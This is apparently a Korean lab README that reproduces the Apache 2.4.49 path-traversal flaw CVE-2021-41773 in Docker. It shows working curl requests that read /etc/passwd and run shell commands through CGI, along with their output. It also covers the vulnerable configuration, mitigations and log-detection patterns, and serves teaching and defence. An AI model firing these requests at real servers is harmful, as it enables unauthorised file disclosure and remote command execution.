






# CVE-2021-41773 Apache HTTP Server Path Traversal

**Contributors**

[이희수(@lheeeesoo)](https://github.com/lheeeesoo)

---

Apache HTTP Server 2.4.49에는 URL 경로를 정규화하는 과정에서 인코딩된 상위 경로를 제대로 차단하지 못하는 취약점이 존재한다.

공격자는 `.%2e`와 같은 값을 이용하여 웹 서버가 공개하도록 설정한 디렉터리 밖으로 이동할 수 있다. 외부 디렉터리에 대한 접근이 허용된 환경에서는 서버 내부 파일이 노출될 수 있으며, CGI 기능이 활성화된 경우에는 시스템 셸을 실행하여 원격 명령 실행으로 이어질 수 있다.

본 프로젝트에서는 Docker를 이용해 Apache HTTP Server 2.4.49 환경을 직접 구축하고 다음 두 가지를 재현하였다.

- Path Traversal을 이용한 `/etc/passwd` 파일 노출
- CGI를 이용한 원격 명령 실행

---

## 프로젝트 구조

```text
CVE-2021-41773/
├── Dockerfile
├── docker-compose.yml
├── README.md
├── apache/
│   └── httpd.conf
├── web/
│   └── index.html
├── scripts/
│   ├── poc.sh
│   └── poc.ps1
└── screenshots/
    ├── 01-container-status.png
    ├── 02-normal-service.png
    ├── 03-apache-version.png
    ├── 04-path-traversal.png
    ├── 05-rce-whoami.png
    └── 06-poc-script.png
```

---

## 환경 구성

다음 명령으로 Docker 이미지를 빌드하고 컨테이너를 실행

```bash
docker compose up -d --build
```

컨테이너 실행 상태는 다음 명령으로 확인

```bash
docker ps
```

실행 결과에서 컨테이너가 `Up` 상태이며, 호스트의 8080번 포트가 컨테이너의 80번 포트와 연결된 것을 확인



---

## 정상 웹 서비스 확인

브라우저에서 다음 주소로 접속한다.

```text
http://localhost:8080
```

정상적으로 Apache 웹 페이지가 출력으로 환경 구성 완료 확인



---

## Apache 버전 확인

다음 명령으로 컨테이너 내부의 Apache 버전을 확인

```bash
docker compose exec web /usr/local/apache2/bin/httpd -v
```

실행 결과:

```text
Server version: Apache/2.4.49 (Unix)
```

CVE-2021-41773의 영향을 받는 Apache HTTP Server 2.4.49가 실행되고 있음을 확인



---

## 취약 조건

본 실습 환경에서는 다음 조건이 적용되어 있다.

- Apache HTTP Server 2.4.49 사용
- Alias 및 ScriptAlias 경로 사용
- 웹 루트 밖의 디렉터리에 대한 접근 허용
- CGI 기능 활성화
- Apache 프로세스가 `daemon` 계정으로 실행

Apache 설정에는 다음과 같이 파일시스템 최상위 경로에 대한 접근이 허용되어 있다.

```apache
<Directory "/">
    AllowOverride None
    Require all granted
</Directory>
```

또한 CGI 실행을 위해 다음 설정을 사용하였다.

```apache
ScriptAlias /cgi-bin/ "/usr/local/apache2/cgi-bin/"

<Directory "/usr/local/apache2/cgi-bin">
    AllowOverride None
    Options +ExecCGI
    Require all granted
</Directory>
```

---

## Path Traversal

다음 요청은 인코딩된 상위 경로를 이용하여 컨테이너 내부의 `/etc/passwd` 파일에 접근한다.

```bash
curl --path-as-is "http://localhost:8080/icons/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```

`.%2e`는 URL 디코딩 이후 `..`로 처리된다.

따라서 공격자는 Alias 경로를 기준으로 여러 번 상위 디렉터리로 이동한 뒤 `/etc/passwd` 파일에 접근할 수 있다.

실행 결과:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```



`/etc/passwd`에는 사용자명, UID, GID, 홈 디렉터리 및 로그인 셸 등 시스템 계정 정보가 저장되어 있다.

실제 비밀번호는 포함되어 있지 않지만, 정상적인 외부 웹 사용자가 접근할 수 없어야 하는 서버 내부 파일이 HTTP 요청만으로 노출되었다는 점에서 정보 노출 취약점이 확인된다.

실제 운영 환경에서는 같은 방식으로 다음과 같은 민감한 정보가 노출될 가능성이 있다.

- 애플리케이션 설정 파일
- 데이터베이스 접속 정보
- API 키 및 인증 정보
- 소스코드
- 로그 파일
- 인증서 및 개인키

---

## CGI를 통한 명령 실행

다음 요청은 Path Traversal을 이용하여 `/bin/sh`에 접근하고 `whoami` 명령을 실행한다.

```bash
curl -s --path-as-is \
  -d "echo Content-Type: text/plain; echo; whoami" \
  "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
```

실행 결과:

```text
daemon
```



`/cgi-bin/` 경로는 `ScriptAlias`로 설정되어 있기 때문에 Apache는 해당 경로의 파일을 단순히 읽는 것이 아니라 CGI 프로그램으로 실행한다.

Path Traversal을 통해 `/bin/sh`에 접근한 뒤 요청 본문에 포함된 명령을 전달하면 Apache 실행 계정 권한으로 명령이 실행된다.

본 환경에서는 Apache가 다음 계정으로 실행된다.

```apache
User daemon
Group daemon
```

따라서 명령 실행 결과 역시 `daemon` 계정으로 출력되었다.

root 권한은 아니지만 다음과 같은 추가적인 위협이 발생할 가능성이 있다.

- 웹 애플리케이션 파일 변조
- 설정 파일 및 인증 정보 탈취
- 악성 파일 다운로드 및 실행
- 내부 네트워크 탐색
- 추가 취약점을 이용한 권한 상승

---

## PoC 스크립트 실행

개별 명령 대신 PoC 스크립트를 이용하여 정상 서비스, Path Traversal, 원격 명령 실행을 한 번에 확인할 수 있다.

### PowerShell

```powershell
powershell -ExecutionPolicy Bypass -File .\scripts\poc.ps1
```

### Bash

```bash
bash scripts/poc.sh
```

스크립트는 다음 항목을 순서대로 확인한다.

```text
[1] 정상 서비스 확인
[2] Path Traversal을 통한 /etc/passwd 접근
[3] CGI를 통한 id 명령 실행
```



---

## 대응 방안

### Apache 버전 업데이트

Apache HTTP Server 2.4.49를 사용하지 않고 보안 패치가 적용된 최신 버전으로 업데이트해야 한다.

### 최상위 디렉터리 접근 차단

운영 환경에서는 파일시스템 최상위 경로를 기본적으로 차단해야 한다.

```apache
<Directory "/">
    Require all denied
</Directory>
```

필요한 웹 디렉터리만 별도로 허용한다.

```apache
<Directory "/usr/local/apache2/htdocs">
    Require all granted
</Directory>
```

### 불필요한 CGI 비활성화

CGI 기능이 필요하지 않다면 다음 기능을 비활성화한다.

- `mod_cgi`
- `ScriptAlias`
- `ExecCGI`

### 최소 권한 적용

Apache 프로세스는 root가 아닌 제한된 서비스 계정으로 실행하고, 해당 계정이 접근할 수 있는 파일과 디렉터리를 최소화해야 한다.

### 로그 모니터링

다음과 같은 비정상 경로가 포함된 요청을 탐지하고 차단해야 한다.

```text
.%2e
%2e%2e
/cgi-bin/
```

---

## 환경 종료

```bash
docker compose down
```

---

## 결론

본 실습에서는 Dockerfile을 이용하여 Apache HTTP Server 2.4.49를 빌드하고, Docker Compose를 통해 재현 가능한 취약 환경을 구성하였다.

Path Traversal 요청을 통해 정상적인 웹 사용자가 접근할 수 없어야 하는 컨테이너 내부의 `/etc/passwd` 파일이 노출되는 것을 확인하였다.

또한 CGI가 활성화된 환경에서는 `/bin/sh`에 접근하여 Apache 실행 계정인 `daemon` 권한으로 시스템 명령을 실행할 수 있음을 확인하였다.

이를 통해 CVE-2021-41773이 단순한 경로 노출뿐만 아니라 환경 설정에 따라 원격 명령 실행으로 이어질 수 있는 취약점임을 확인할 수 있다.

---

## 참고 자료

- [Apache HTTP Server Security Vulnerabilities](https://httpd.apache.org/security/vulnerabilities_24.html)
- [NVD CVE-2021-41773](https://nvd.nist.gov/vuln/detail/cve-2021-41773)
- [Apache HTTP Server URL Mapping Documentation](https://httpd.apache.org/docs/2.4/urlmapping.html)
- [Apache CGI Documentation](https://httpd.apache.org/docs/current/howto/cgi.html)
